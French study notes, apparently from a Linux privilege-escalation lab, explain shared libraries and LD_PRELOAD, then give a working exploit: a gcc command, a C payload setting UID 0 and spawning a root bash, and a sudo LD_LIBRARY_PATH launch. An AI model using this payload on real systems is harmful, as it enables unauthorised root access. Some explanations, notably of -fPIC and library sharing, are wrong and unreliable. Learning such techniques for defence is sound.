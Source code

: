 Définition :

Une var d'environnement c'est juste une variable pour chaque utilisateur. En gros chaque env(user) possède ses propres var d'env. Y'a quoi dedans ? ca dépent de la var.

Bibliothèque partagée/dynamique :

C'est une librairie qui peut être utilisée par plusieurs programmes en même temps sans interférence. Ces librairies ne sont pas entièrement dans le fichier binaire final. Seul le nécessaire est présent.

Programme statique :

Programme qui ne charge pas de bibliothèque dynamique. Tout est entièrement dans le fichier binaire.

Dynamic linker :  
Relie les bibliothèques à un programme. Travail facilité grâce à l'option -fPIC.

-fPIC permet de situer la bibliothèque partagé. c'est une optimisation. En gros, si on lance deux fois le même programme, les deux utiliseront la même copie de la bibliothèque. Par contre, si deux programmes différents utilisent la même bibliothèque, ils auront chacun leur propre copie pour leur propre nécessité. Tout cela facilite la tâche pour le dynamic linker.

Liste des variables d'env avec vulnérabilité :

LD_PRELOAD : Charge des bibliothèques partagées spécifiées pour qu'elles chargent avant toute les autres. Donc par exemple si je créé une fonction print() qui stock des variables (rien a voir avec le vrai print) ce serai la fonction de ma bibliothèque dans LD_PRELOAD qui sera prioritaire.

Exemple de vulnérabilité :

J'ai les permissions pour executer un programme spécifique en sudo (que j'ai vu en faisant sudo -l).

Je regarde quelles librairies sont utilisées donc : ldd emplacement/du/programme.

Je fais gcc -o /tmp/nom_d'une_library_utilisée -shared -fPIC /home/user/tools/sudo/library_path.c

-shared pour créer un .so (shared object) partagé. -fPIC pour situer la bibliothèque dynamiquement.

Cette commande permet de créer une librairie qui a le meme nom qu'une librairie que le proggramme utilise déja pour la remplacer. Dans cette librairie, on mettra une fonction malveillante qui aura le meme nom qu'une fonction deja utilisée dans le programme dans le but de la remplacer. Exemple :

```C
#include <stdio.h>  
#include <sys/types.h>  
#include <stdlib.h>

void _init() {  
        unsetenv("LD_PRELOAD");  
        setresuid(0,0,0);  
        system("/bin/bash -p");  
}
```

Ensuite, on lance le programme : sudo LD_LIBRARY_PATH=/tmp nom_du_prog ld_library_path dit où chercher la librairie partagée (avec la fonction malveillante) donc dans ce cas-ci, dans tmp
